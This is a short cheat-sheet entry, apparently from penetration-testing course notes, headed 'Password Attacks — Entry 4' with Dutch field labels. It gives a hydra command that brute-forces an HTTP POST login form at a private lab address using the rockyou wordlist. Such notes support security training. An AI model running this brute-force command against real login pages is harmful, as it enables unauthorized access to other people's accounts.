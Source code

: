 # 16.Password Attacks — Entry 4

## Categorie

HTTP-FORM

## Commando

```
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

## Omschrijving

```
Performing an brute-force attack on a login form (HTTP POST request)
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_


